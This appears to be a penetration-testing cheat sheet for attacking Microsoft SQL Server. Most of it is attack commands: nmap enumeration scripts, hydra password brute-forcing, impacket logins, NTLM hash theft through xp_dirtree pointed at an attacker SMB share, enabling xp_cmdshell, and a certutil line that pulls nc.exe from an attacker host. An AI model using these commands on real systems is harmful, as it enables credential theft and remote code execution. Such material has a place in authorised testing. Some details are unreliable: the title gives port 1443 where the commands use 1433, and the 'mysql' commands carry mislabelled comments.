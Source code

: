 # MSSQL - 1443

### Get information <a href="#get-information" id="get-information"></a>

```bash
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>
```

### Brute force <a href="#brute-force-5" id="brute-force-5"></a>

```bash
hydra -L <USERS_LIST> -P <PASSWORDS_LIST> <IP> mssql -vV -I -u
```

### Comandos mysql

```bash
show databases; - List all databases
use table; - select the column
show tables; - List all tables
select * from table - List everything from a given table
```

### Having credentials <a href="#having-credentials" id="having-credentials"></a>

```bash
mssqlclient.py -windows-auth <DOMAIN>/<USER>:<PASSWORD>@<IP>
mssqlclient.py <USER>:<PASSWORD>@<IP>

# Once logged in you can run queries:
SQL> select @@ version;

# Steal NTLM hash
sudo smbserver.py -smb2support liodeus .
SQL> exec master..xp_dirtree '\\<IP>\liodeus\' # Steal the NTLM hash, crack it with john or hashcat

# Try to enable code execution
SQL> enable_xp_cmdshell

# Execute code
SQL> xp_cmdshell whoami /all
SQL> xp_cmdshell certutil.exe -urlcache -split -f http://<IP>/nc.exe
```

### Manual exploit <a href="#manual-exploit" id="manual-exploit"></a>

```bash
Cheatsheet :
	- https://www.asafety.fr/mssql-injection-cheat-sheet/
```
